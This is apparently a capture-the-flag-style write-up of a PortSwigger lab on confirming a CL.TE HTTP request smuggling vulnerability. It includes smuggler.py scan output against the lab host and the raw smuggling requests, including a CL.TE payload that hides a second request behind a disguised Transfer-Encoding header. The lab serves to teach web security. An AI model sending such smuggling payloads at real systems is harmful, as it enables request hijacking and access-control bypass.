

# [Lab: HTTP request smuggling, confirming a CL.TE vulnerability via differential responses](https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses)

## Lab

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server, so that a subsequent request for `/` (the web root) triggers a 404 Not Found response.

## Detect CL.TE

- smuggler.py:

```bash
┌──(kali㉿kali)-[~/Documents/tools]
└─$ python smuggler/smuggler.py -u https://0a4d009d049629f7c1ffd079006c0017.web-security-academy.net/                                      

  ______                         _                                                                                                                                                                                                         
 / _____)                       | |                                                                                                                                                                                                        
( (____  ____  _   _  ____  ____| | _____  ____                                                                                                                                                                                            
 \____ \|    \| | | |/ _  |/ _  | || ___ |/ ___)                                                                                                                                                                                           
 _____) ) | | | |_| ( (_| ( (_| | || ____| |                                                                                                                                                                                               
(______/|_|_|_|____/ \___ |\___ |\_)_____)_|                                                                                                                                                                                               
                    (_____(_____|                                                                                                                                                                                                          
                                                                                                                                                                                                                                           
     @defparam                         v1.1                                                                                                                                                                                                
                                                                                                                                                                                                                                           
[+] URL        : https://0a4d009d049629f7c1ffd079006c0017.web-security-academy.net/
[+] Method     : POST
[+] Endpoint   : /
[+] Configfile : default.py
[+] Timeout    : 5.0 seconds
[+] Cookies    : 1 (Appending to the attack)
[nameprefix1]  : OK (TECL: 1.16 - 200) (CLTE: 1.09 - 200)                                           
[tabprefix1]   : Potential CLTE Issue Found - POST @ https://0a4d009d049629f7c1ffd079006c0017.web-security-academy.net/ - default.py                                                                                                       
[CRITICAL]     : CLTE Payload: /home/kali/Documents/tools/smuggler/payloads/https_0a4d009d049629f7c1ffd079006c0017_web-security-academy_net_CLTE_tabprefix1.txt URL: https://0a4d009d049629f7c1ffd079006c0017.web-security-academy.net/ 

┌──(kali㉿kali)-[~/Documents/tools]
└─$ cat -A /home/kali/Documents/tools/smuggler/payloads/https_0a4d009d049629f7c1ffd079006c0017_web-security-academy_net_CLTE_tabprefix1.txt

POST /?cb=6496163209015899 HTTP/1.1^M$
Transfer-Encoding:^Ichunked^M$
Host: 0a4d009d049629f7c1ffd079006c0017.web-security-academy.net^M$
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.87 Safari/537.36^M$
Content-type: application/x-www-form-urlencoded; charset=UTF-8^M$
Content-Length: 4^M$
Cookie:  session=iyroijeknkex794drvcxtqyzp6jvhtvm;^M$
^M$
1^M$
Z^M$
0^M$
^M$
```

- burpsuite `HTTP request smuggler` extension:



## Solutions

```http
POST / HTTP/1.1^M$
Host: 0a4d009d049629f7c1ffd079006c0017.web-security-academy.net^M$
Content-Type: application/x-www-form-urlencoded^M$
Content-Length: 33^M$
tRANSFER-ENCODING: chunked^M$
^M$
0^M$
^M$
GET /notfound HTTP/1.1^M$
foo: 
```

backend:

  ```http
  POST / HTTP/1.1^M$
  Host: 0a4d009d049629f7c1ffd079006c0017.web-security-academy.net^M$
  Content-Type: application/x-www-form-urlencoded^M$
  Content-Length: 33^M$
  tRANSFER-ENCODING: chunked^M$
  ^M$
  0^M$
  ^M$
  ```

  ```http
  GET /notfound HTTP/1.1^M$
  foo: 
  ```
